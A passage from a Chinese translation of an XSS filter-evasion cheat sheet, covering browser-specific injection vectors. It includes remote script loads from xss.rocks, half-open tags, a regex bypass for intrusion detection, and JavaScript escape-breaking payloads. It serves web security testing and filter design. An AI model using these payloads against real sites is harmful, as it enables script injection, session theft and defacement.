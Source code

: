 在Firefox和Netscape 8.1的Gecko渲染引擎下你不是必须构造类似“></SCRIPT>”的跨站脚本攻击向量。Firefox假定闭合HTML标签是安全的并且会为你添加闭合标记。多么体贴！不像不影响Firefox的下一个问题，这不需要在后面有额外的HTML标签。如果需要可以添加引号，但通常是没有必要的，需要注意的是，我并不知道这样注入后HTML会什么样子结束:

> <SCRIPT SRC=<http://xss.rocks/xss.js?>< B >

### 2.30.    script标签中的协议解析

这个特定的变体是由Łukasz Pilorz提交的并且基于Ozh提供的协议解析绕过。这个跨站脚本示例在IE和Netscape的IE渲染模式下有效，如果添加了</SCRIPT>标记在Opera中也可以。这在输入空间有限的情况下是非常有用的，你所使用的域名越短越好。”.j”是可用的，在SCRIPT标签中不需要考虑编码类型因为浏览器会自动识别。

> <SCRIPT SRC=//xss.rocks/.j>

### 2.31.    只含左尖括号的HTML/JavaScript XSS向量

IE渲染引擎不像Firefox，不会向页面中添加额外数据。但它允许在IMG标签中直接使用javascript。这对构造攻击向量是很有用的，因为不需要闭合尖括号。这使得有任何HTML标签都可以进行跨站脚本攻击向量注入。甚至可以不使用”>”闭合标签。注意：这会让HTML页面变得混乱，具体程度取决于下面的HTML标签。这可以绕过以下NIDS正则:/((\%3D)|(=))[^\n]*((\%3C)|<)[^\n]+((\%3E)|>)/因为不需要”>”闭合。另外在实际对抗XSS过滤器的时候，使用一个半开放的<IFRAME标签替代<IMG标签也是非常有效的。

> <IMG SRC=”javascript:alert(‘XSS’)”

### 2.32.    多个左尖括号

使用一个左尖括号替代右尖括号作为标签结尾的攻击向量会在不同浏览器的Gecko渲染引擎下有不同表现。没有左尖括号时，在Firefox中生效，而在Netscape中无效。

> <iframe src=<http://xss.rocks/scriptlet.html> <

### 2.33.    JavaScript双重转义

当应用将一些用户输入输出到例如：<SCRIPT>var a=”$ENV{QUERY_STRING}”;</SCRIPT>的JavaScript中时，你想注入你的JavaScript脚本，你可以通过转义转义字符来规避服务器端转义引号。注入后会得到<SCRIPT>vara=”\\”;alert(‘XSS’);//”;</SCRIPT>，这时双引号不会被转义并且可以触发跨站脚本攻击向量。XSS定位器就用了这种方法:

> \”;alert(‘XSS’);//

另一种情况是，如果内嵌数据进行了正确的JSON或JavaScript转义，但没有HTML编码，那可以结束原有脚本块并开始你自己的：

> </script><script>alert(‘XSS’);</script>

### 2.34.    闭合title标签

这是一个简单的闭合<TITLE>标签的XSS攻击向量，可以包含恶意的跨站脚本攻击:

> </TITLE><SCRIPT>alert(“XSS”);</SCRIPT>

### 2.35.    INPUT image

> <INPUT TYPE=”IMAGE” SRC=”javascript:alert(‘XSS’);”>

### 

### 

### 2.36.    BODY image

> <BODY BACKGROUND=”javascript:alert(‘XSS’)”>

### 

### 
